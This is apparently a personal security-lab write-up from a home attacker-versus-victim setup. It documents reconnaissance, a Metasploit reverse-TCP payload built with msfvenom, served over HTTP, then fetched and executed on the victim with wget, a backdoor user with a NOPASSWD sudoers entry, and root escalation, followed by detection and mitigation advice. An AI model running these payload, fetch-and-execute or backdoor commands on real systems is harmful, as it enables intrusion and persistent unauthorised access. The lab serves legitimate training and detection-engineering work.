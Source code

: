 ATTACKER-DEFENDER LAB

Author: Bobo Nikolov
Date: 27-10-2025
Status: In Progress (Defender / SecurityOnion phase next)


---


- Objective
Build isolated attacker <> victim lab to demonstrate reconnaissance, initial access, execution, persistence, and privilege escalation — then add a defender (SecurityOnion) to capture telemetry and create detections.

- Architecture and Scope
"lab_attacker" - Kali Linux(Internal Network(labnet)/NAT)IP 10.10.10.10
"lab_victim" - Ubuntu Linux(Internal Network(labnet)/Internal Network(intnet))IP 10.10.10.20
"Network" - Internal Network only(Isolated)
"Snapshot" - Created before testing and reverted again for repeatability.

NOTE: All work is performed on my VM's only!


---


  ENUMERATION 
  
(In linux terminal)Run:
nmap -sS -sV 10.10.10.20
'evidence/2025-10-27_05-52_AM_Screenshot_Enumeration_ .png'


---


  INITIAL ACCESS AND EXECUTION

1. Summary
Created a small Linux meterpreter ELF payload on attacker host, served it via HTTP server, fetched and executed it on the victim, then handled the incoming meterpreter session from Metasploit.

2. Artifacts / screenshots
-Payload creation: 'evidence/2025-10-27_15-32-08_Payload_Creation_Initial_Access_Execution.png'
-Serving payload: 'evidence/2025-10-27_15-38-08_Serving_Payload_Initial_Access_Execution.png'
-Payload downloaded on victim: 'evidence/2025-10-27_15-42-04_Payload_On_Victim_Initial_Access_Execution.png'
-Exploit/run and handler: 'evidence/2025-10-27_15-47-45_Exploit_Run_And_Waiting_Initial_Access_Execution.png'
-Successful execution(meterpreter/shell proof)- 'evidence/2025-10-27_15-58-31_Successful-Execution_Initial-Access-Execution.png'

3. What I did
Generated a Linux ELF reverse-TCP payload on the attacker:
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -O shell32.elf

4. Served the payload from attacker
python3 -m http.server 8000 --bind 10.10.10.10

5. On the victim fetched and executed it 
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell

6. Started a multi handler on Metasploit
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4444


---


   PERSISTANCE
   
1. Summary
To demonstrate persistance detection and to create realistic defender telemetry for the upcoming SecurityOnion phase, a benign backdoor user was created and a sudoers entry added. All were documented and snapshot was reverted.

2. Artifacts / Screenshots
-Persistance (new user created): 'evidence/2025-10-27_17-59-25_Persistance-New-User_Persistance.png'

3. Commands Executed
sudo useradd -, -s /bin/bash backdoor_user //Creating a new user
echo 'backdoor_user:P@ssword123!' | sudo chpasswd //Setting a password

// Add sudoers entry (NOPASSWD) to simulate privilege-capable persistence

echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user


---


   PRIVILEGE ESCALATION
   
1. Summary
After intitial access, local privilege escalation was demonstrated - minimal proof (whoami / id) captured to validate root access. This was performed only to verify impact for detection engineering.

2. Artifact / Screenshot
-Privilege escalation(root obtained): 'evidence/2025-10-27_18-49-33_Privilege-Escalation.png'

3. Proof commands / notes
// From the interactive shell on meterpreter > shell
whoami
id

//In some cases a known local vector was used and 'sudo /bin/bash' or similar verified root:
sudo /bin/bash
whoami //lead to root


---


   CONCLUSION

This lab demonstrated a complete attacker workflow in an isolated environment: reconnaissance, payload creation and delivery, successful remote code execution, a persistence demonstration, and local privilege escalation (proof-of-concept). The aim was not to cause damage but to produce realistic telemetry and artifacts that a defender can use to tune detections and playbook responses.

The environment was fully isolated and snapshotted before testing; all changes were reverted after evidence capture. This project serves as a foundation for the defender phase (SecurityOnion), where I will ingest network and host telemetry and author detection rules.


---


   LESSION'S LEARNED AND MITIGATION

  Takeaways
  
- Simple file-download + execute flows are a high-risk vector (e.g. `wget` + `chmod` + run). Prevent by restricting outbound HTTP to unapproved hosts and enforcing execution policies.
- Creation of sudoers/NOPASSWD entries is a common persistence pattern — monitor `/etc/sudoers.d/` and user creation events.
- Local privilege escalation vectors (SUID binaries, misconfigured services) remain a rapid path to full compromise — remove unnecessary SUID/privileged binaries and harden kernel/service updates.

  Recommended mitigation
  
- Block unneeded inbound services; harden public-facing services.
- Enforce least privilege and MFA for administrative access.
- Instrument hosts with sysmon/auditd and forward to your SIEM; create alerts for: unexpected `wget`/`curl` + `chmod +x`, new `/etc/sudoers.d/` files, and new user creation.
- Add network egress restrictions to limit direct payload fetch from attacker-controlled HTTP servers.


---


  Next steps (roadmap)

- SecurityOnion integration (planned): deploy sensor/manager, ingest Zeek/Suricata logs, simulate the attack again, and capture detection telemetry.  
- Detection engineering: write Sigma/Suricata rules and Splunk/SO correlation searches for this scenario.  
- Lateral movement (optional): expand the lab to include a second internal host to demonstrate lateral movement and network-based detection. (WIP — planned for next iteration)


---


  Appendix – Commands & Artifacts

Important commands used (sanitized)

```bash
# Recon
nmap -sS -sV 10.10.10.20

# Payload creation
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell32.elf

# Serve payload
python3 -m http.server 8000 --bind 10.10.10.10

# Victim (lab-only)
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell && /tmp/shell

# Persistence (lab-only)
sudo useradd -m -s /bin/bash backdoor_user
echo 'backdoor_user:Password123!' | sudo chpasswd
echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user



